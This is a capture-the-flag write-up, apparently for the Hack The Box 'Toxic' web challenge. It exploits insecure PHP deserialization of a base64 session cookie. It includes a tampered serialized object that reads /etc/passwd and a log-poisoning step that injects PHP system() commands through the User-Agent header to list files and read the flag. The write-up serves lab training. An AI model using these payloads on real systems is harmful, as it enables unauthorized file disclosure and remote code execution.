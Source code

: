 # Toxic

webpage interface:
![image](https://github.com/IcariZ/HTB/assets/89731969/fb1baa77-12f5-4447-985f-80a3c75cc6da)

no input bar is given in the web.

looking at the source code under index.php we see that the web actually has a cookie in it. 

analyzing the flow of the code, the cookie is being serialized and encoded with base64 when the cookie is empty

but when it's not, it decodes with base64 and unserialized itself

so it is insecure deserialization where user can interact/tamper directly with the serialization

let's [decode](https://gchq.github.io/CyberChef/) the cookie from the web
``PHPSESSID:"Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9"`` 
we got -> ``O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}``

let's try to access ``/etc/passwd`` by tweaking the cookie to 
``O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}``

we get 
![image](https://github.com/IcariZ/HTB/assets/89731969/d6d3c475-cab0-42d5-a1ac-c8c7f10b8b15)

we can use log file poisoning to yield what is inside the machine with:
changing the user-agent from the header request with ``<?php system('ls /')?>``

![image](https://github.com/IcariZ/HTB/assets/89731969/b6429eb9-0bb4-4d2f-92e2-a5fa123cb5b7)

we get as a respond
![image](https://github.com/IcariZ/HTB/assets/89731969/69636579-2451-439f-8120-0ad5a82c81c1)

finally we know what file should we access 
change the user header into ``<?php system('cat /flag_vQTe7')?>`` and send the request again

![image](https://github.com/IcariZ/HTB/assets/89731969/1310a6d2-3293-4af6-ad0b-064b5e105fe7)



